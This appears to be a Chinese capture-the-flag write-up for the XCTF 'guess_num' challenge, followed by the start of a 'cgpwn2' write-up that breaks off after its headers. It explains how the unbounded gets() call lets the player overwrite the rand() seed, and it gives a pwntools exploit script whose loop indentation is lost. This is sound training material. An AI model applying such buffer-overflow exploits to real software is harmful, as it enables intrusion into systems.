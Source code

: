 # 攻防世界: guess_num

## **[目标]**

重写seed

## **[环境]**

Ubuntu

## **[工具]**

gdb、objdump、python、pwntools, IDA

## **[过程分析]**

![img](https://adworld.xctf.org.cn/media/task/writeup/cn/guess_num/pic/1.png)

显然，这是一个简单的溢出题。只要将seed[0]值固定，rand()产生的数列就是可以预测的。又因为gets函数不限制输入的长度，所以我们可以在输入 name 的时候把seed[0]覆盖掉。

完整exp如下：

```python
from pwn import *
from ctypes import* 
context.log_level = 'debug' 
p = process("./guess_num") 
libc = cdll.LoadLibrary("/lib/x86_64-linux-gnu/libc.so.6")
pay = "A"*0x20 + p64(1) 
p.sendlineafter("name:",pay)
libc.srand(1)
for i in range(10): 
p.sendlineafter("number:",str(libc.rand()%6 + 1))
print p.recv() 
print p.recv() ```
```

# 攻防世界: cgpwn2

## **[目标]**

栈溢出

## **[环境]**

Ubuntu

## **[工具]**
